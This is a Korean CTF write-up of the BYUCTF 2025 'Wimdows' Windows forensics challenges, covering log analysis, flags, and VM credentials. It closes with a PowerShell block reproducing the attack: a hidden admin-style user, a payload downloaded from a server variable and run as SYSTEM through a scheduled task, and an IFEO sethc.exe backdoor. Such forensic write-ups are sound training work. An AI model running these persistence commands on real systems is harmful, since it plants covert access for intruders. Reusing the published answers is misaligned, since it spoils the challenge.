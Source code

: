 # 🪟 BYUCTF 2025 - Wimdows 시리즈

## 🖥️ 공통 정보

- 문제 유형: Windows 포렌식 (디스크/로그 기반 분석)
- 제공 파일: [Windows 가상 머신 다운로드](https://byu.box.com/v/byuctf-wimdows)  
- 로그인 정보: `vagrant / vagrant`
- 공통 힌트: 모든 문제는 **Event Viewer (이벤트 로그)** 및 **Sysmon** 분석으로 해결 가능함

---

## 1️⃣ Wimdows 1 - Exploited CVE 찾기

### 🔍 설명

공격자가 Windows 서버에 침투함. 어떤 취약점을 이용해 셸을 얻었는지 파악해야 함.  
플래그 형식: `byuctf{CVE-YYYY-NNNN}`

### 🛠️ 풀이 요약

- Sysmon 로그에서 `elasticsearch-service-x64.exe`를 부모로 하는 SYSTEM 권한 프로세스 다수 발견
- 해당 ElasticSearch 버전: **1.1.1**
- 관련 CVE 중 **RCE가 가능한 유일한 취약점**: `CVE-2014-3120`

### ✅ 정답

byuctf{CVE-2014-3120}



---

## 2️⃣ Wimdows 2 - 숨겨진 명령 내역

### 🔍 설명

공격자가 침투 후 명령어를 실행했지만, 로그를 은폐하려고 시도함.  
Event Log에서 흔적을 찾아야 함.  
플래그는 이미 `byuctf{}` 형식으로 숨겨져 있음.

### 🛠️ 풀이 요약

- Windows Event Log > PowerShell 로그 확인
- Base64 인코딩된 명령어들 중 하나에 플래그 포함됨

### ✅ 정답

byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}


---

## 3️⃣ Wimdows 3 - 공격자가 만든 계정의 그룹

### 🔍 설명

공격자가 만든 새로운 계정을 어떤 그룹에 추가했는지 확인해야 함  
예시 형식: `byuctf{Remote Desktop Users}`  
대소문자 무시

### 🛠️ 풀이 요약

- Event Log에서 `phasma` 사용자 계정이 `Remote Desktop Users` 그룹에 추가된 이벤트 확인

### ✅ 정답

byuctf{Remote Desktop Users}


---

## 4️⃣ Wimdows 4 - C2 바이너리 및 서버 IP

### 🔍 설명

공격자가 C2 바이너리를 배포함.  
사용된 C2 프레임워크와 해당 C2 서버 IP를 확인해야 함.  
형식: `byuctf{<c2 framework>_<ip address>}`

### 🛠️ 풀이 요약

- `C:\Windows\System32\update.exe` 확인
- VirusTotal에 업로드하여 C2 프레임워크가 **Sliver**임을 확인
- Netstat 등으로 서버 IP 확인: `192.168.1.224`

### ✅ 정답

byuctf{sliver_192.168.1.224}


---

## 5️⃣ Wimdows 5 - SYSTEM 권한 백도어

### 🔍 설명

공격자가 SYSTEM 권한을 얻기 위해 설치한 **백도어**를 찾아야 함  
답은 `byuctf{}` 형식으로 Registry에 숨겨져 있음

### 🛠️ 풀이 요약

- Sysmon에서 `sethc.exe`에 대한 `IFEO (Image File Execution Options)` 레지스트리 키 수정 확인
- `sethc.exe`가 `cmd.exe`로 리디렉션되어 있으며, 값 뒤에 주석 형태로 플래그 포함됨

### ✅ 정답

byuctf{00p5_4ll_b4ckd00r5_139874}


---

## 🛠️ 참고: 공격 재현 과정

```powershell
# Wimdows 2
whoami /priv
ls -l
write-output 'byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}'
get-process
get-service

# Wimdows 3
net user phasma f1rst0rd3r! /add
New-Item -Path "HKLM:\...\UserList" -Force | Out-Null
New-ItemProperty -Path "HKLM:\...\UserList" -Name "phasma" -Value 0 -PropertyType DWord -Force
net localgroup "Remote Desktop Users" phasma /add

# Wimdows 4
Invoke-WebRequest -Uri "http://${server_ip}:8000/update.exe" -OutFile "C:\Windows\System32\update.exe"
schtasks /create /tn "updates" /tr "C:\Windows\System32\update.exe" /ru 'SYSTEM' /sc onstart /rl highest
schtasks /run /tn "updates"

# Wimdows 5 (in Sliver)
REG ADD "HKLM\...\sethc.exe" /v Debugger /d "C:\windows\system32\cmd.exe #byuctf{00p5_4ll_b4ckd00r5_139874}" /f
